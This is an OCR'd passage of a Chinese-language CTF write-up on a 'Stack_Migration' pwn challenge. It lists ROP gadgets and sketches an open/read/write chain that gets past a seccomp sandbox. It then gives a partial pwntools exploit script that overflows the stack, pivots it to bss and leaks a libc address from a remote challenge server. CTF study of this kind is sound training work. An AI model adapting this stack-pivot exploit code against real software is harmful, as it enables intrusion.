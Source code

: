 ```
p.interactive()
 
# 0x000000000040129c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012a0 : pop r14 ; pop r15 ; ret
# 0x00000000004012a2 : pop r15 ; ret
# 0x000000000040129b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040115d : pop rbp ; ret
# 0x00000000004012a3 : pop rdi ; ret
# 0x00000000004012a1 : pop rsi ; pop r15 ; ret
# 0x000000000040129d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
```
### Stack_Migration
字面意思，栈可以到处跑
正常审题程序不再罗列（checksec、IDA看字符串啥的）。
IDA中发现有沙箱
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/1dis1.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/1seccomp.png)
依旧是发现栈溢出。
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/1dis2.png)
考虑到没法直接执行shellcode，因此只能构建ROP链。实现以下功能：
```
char*file='flag';
open(file,0,0);
read(3,file,0x30);
write(1,file,0x30);
```
这里把存储flag文件的名称和栈迁移之后的ROP链一起读入到bss那里。毕竟空间充足。
```
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2109)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
 
bss_st=0x4040A0
bss_tar=0x4040A0+0x200
flag_name=0x4040a0+0x200-8
flag_addr=bss_st+0x300-0x40
 
pop_rdi=0x401373
pop_rsi2=0x401371
leave=0x4012e6
 
func_addr=elf.got['read']
write_addr=elf.plt['write']
read_addr=elf.plt['read']
vuln=0x401279
 
payload1=b'a'*(0x200-0x8)+b'flag\x00\x00\x00\x00'+p64(bss_tar+0x100)+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(write_addr)+p64(0x4012a3)
p.sendlineafter('everywhere',payload1)
 
migr_pay=b'a'*0x8+p64(bss_tar)+p64(leave)
```